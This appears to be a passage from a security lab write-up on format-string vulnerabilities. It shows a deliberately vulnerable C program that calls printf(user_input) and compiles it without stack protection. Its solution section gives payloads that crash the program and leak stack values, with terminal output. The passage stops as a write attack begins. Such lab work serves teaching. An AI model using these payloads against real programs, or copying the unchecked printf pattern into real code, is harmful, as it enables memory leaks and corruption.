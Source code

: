 ```c
  scanf("%s", user_input); /* getting a string from user */

  /* Vulnerable place */
  printf(user_input);
  printf("\n");

  /* Verify whether your attack is successful */
  printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
  printf("The new secrets:      0x%x -- 0x%x\n", secret[0], secret[1]);
  return 0;
}
```
(ps: compiler the program without stack protect.)
```sh
gcc -z execstack -fno-stack-protector -o vul_prog vul_prog.c 
```
Hints: From the printout, you will find out that `secret[0]` and `secret[1]` are located on the heap, i.e., the actual secrets are stored on the heap. We also know that the address of the first secret (i.e., the value of the variable `secret`) can be found on the stack, because the variable `secret` is allocated on the stack. In other words, if you want to overwrite `secret[0]`, its address is already on the stack; your format string can take advantage of this information. However, although `secret[1]` is just right after `secret[0]`, its address is not available on the stack. This poses a major challenge for your format-string exploit, which needs to have the exact address right on the stack in order to read or write to that address.

Solution:
Crash the program:
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfecab28 (on stack)
The variable secret's value is 0x 8ec1008 (on heap)
secret[0]'s address is 0x 8ec1008 (on heap)
secret[1]'s address is 0x 8ec100c (on heap)
Please enter a decimal integer
1
Please enter a string
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Segmentation fault (core dumped)
```

Print out the `secret[1]` value:
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbfc1a3f0 (on stack)
The variable secret's value is 0x 9fec008 (on heap)
secret[0]'s address is 0x 9fec008 (on heap)
secret[1]'s address is 0x 9fec00c (on heap)
Please enter a decimal integer
1
Please enter a string
%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/%08x/ 
bfc1a3f8/00000001/b765f309/bfc1a41f/bfc1a41e/00000000/bfc1a504/09fec008/00000001/78383025/3830252f/30252f78/252f7838/
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
```
```sh
seed@ubuntu:~$ ./vul_prog 
The variable secret's address is 0xbf984a90 (on stack)
The variable secret's value is 0x 915c008 (on heap)
secret[0]'s address is 0x 915c008 (on heap)
secret[1]'s address is 0x 915c00c (on heap)
Please enter a decimal integer
152420364
Please enter a string
```